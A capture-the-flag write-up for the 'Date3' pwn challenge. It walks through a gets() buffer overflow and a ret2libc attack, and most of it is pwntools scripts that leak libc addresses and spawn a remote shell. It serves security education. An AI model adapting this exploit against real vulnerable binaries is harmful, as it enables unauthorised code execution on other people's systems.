






# Date3

```
Description
No more writable date path. Can you still pwn me?

Author
Eth007
```


We got a binary, lets check the arch and the protections etc..:



So only nx is enabled and its an 64 bit binary. Lets decompile it in ghidra:




We can see `gets()` is used so there is an buffer overflow. We cant overwrite `date_path` anymore. We can do ret2libc here, but we dont have the remote libc. 
But we can leak and find the libc online. I already explained ret2libc [here](https://github.com/0xM4hm0ud/CTF-Writeups/tree/main/corCTF/Chainblock). So I am not gonna deep dive into it.
So we first find our offset. The offset is 264. Lets find our `pop rdi` gadget. With `ldd ./vuln` you can find the local libc for your binary. Lets create our script:

```py
from pwn import *

def start(argv=[], *a, **kw):
    if args.GDB: 
        return gdb.debug([exe] + argv, gdbscript=gdbscript, *a, **kw)
    elif args.REMOTE: 
        return remote(sys.argv[1], sys.argv[2], *a, **kw)
    else: 
        return process([exe] + argv, *a, **kw)


gdbscript = '''
'''.format(**locals())

exe = './vuln'
elf = context.binary = ELF(exe, checksec=False)
context.log_level = 'info'
libc = ELF('/lib/x86_64-linux-gnu/libc.so.6') # locally

offset = 264
pop_rdi = 0x401283

io = start()

payload = b'A' * offset
payload += p64(pop_rdi)
payload += p64(elf.got['puts']) 
payload += p64(elf.plt['puts']) 
payload += p64(elf.sym['main'])

io.sendlineafter(b'date?\n', payload)
io.recvlines(2)

leaked_addr = u64(io.recv(6) + b'\x00\x00')
print('leaked puts() adress: ', hex(leaked_addr))

libc.address = leaked_addr - libc.symbols['puts']
print("libc address: ", hex(libc.address))

payload = b'A' * offset
payload += p64(pop_rdi)
payload += p64(next(libc.search(b'/bin/sh\x00')))
payload += p64(elf.symbols['system'])

io.sendlineafter(b'date?\n', payload)
io.clean()
io.interactive()
```


And we get our shell locally, but when running remotely it didnt work, because the libc is different. So lets leak values from remote to find the correct libc. 
So I am going to leak `puts` and `gets` address to be more accurate:

```py
from pwn import *

def start(argv=[], *a, **kw):
    if args.GDB: 
        return gdb.debug([exe] + argv, gdbscript=gdbscript, *a, **kw)
    elif args.REMOTE: 
        return remote(sys.argv[1], sys.argv[2], *a, **kw)
    else: 
        return process([exe] + argv, *a, **kw)


gdbscript = '''
'''.format(**locals())

exe = './vuln'
elf = context.binary = ELF(exe, checksec=False)
context.log_level = 'info'

offset = 264
pop_rdi = 0x401283

io = start()

payload = b'A' * offset
payload += p64(pop_rdi)
payload += p64(elf.got['puts']) 
payload += p64(elf.plt['puts']) 
payload += p64(elf.sym['main'])

io.sendlineafter(b'date?\n', payload)
io.recvlines(2)

leaked_addr = u64(io.recv(6) + b'\x00\x00')
print('leaked puts() adress: ', hex(leaked_addr))

io.interactive()

```


And we leaked the remote `puts`, to leak the gets we just change:

```py
payload += p64(elf.got['puts']) 
payload += p64(elf.plt['puts']) 
```

to:

```py
payload += p64(elf.got['gets']) 
payload += p64(elf.plt['puts']) 
```

So with those 2 leaks we find this libc on https://libc.rip/:



So download it locally and finish the exploit:

```py
from pwn import *

def start(argv=[], *a, **kw):
    if args.GDB: 
        return gdb.debug([exe] + argv, gdbscript=gdbscript, *a, **kw)
    elif args.REMOTE: 
        return remote(sys.argv[1], sys.argv[2], *a, **kw)
    else: 
        return process([exe] + argv, *a, **kw)


gdbscript = '''
'''.format(**locals())

exe = './vuln'
elf = context.binary = ELF(exe, checksec=False)
context.log_level = 'info'
#libc = ELF('/lib/x86_64-linux-gnu/libc.so.6') # locally
libc = ELF('./libc6_2.31-0ubuntu9.7_amd64.so') # remotely

offset = 264
pop_rdi = 0x401283
ret = 0x40101a

io = start()

payload = b'A' * offset
payload += p64(pop_rdi)
payload += p64(elf.got['puts']) 
payload += p64(elf.plt['puts']) 
payload += p64(elf.sym['main'])

io.sendlineafter(b'date?\n', payload)
io.recvlines(2)

leaked_addr = u64(io.recv(6) + b'\x00\x00')
print('leaked puts() adress: ', hex(leaked_addr))

libc.address = leaked_addr - libc.symbols['puts']
print("libc address: ", hex(libc.address))

payload = b'A' * offset
payload += p64(pop_rdi)
payload += p64(next(libc.search(b'/bin/sh\x00')))
payload += p64(ret)
payload += p64(elf.symbols['system'])

io.sendlineafter(b'date?\n', payload)
io.clean()
io.interactive()
```

And we got a shell and the flag:


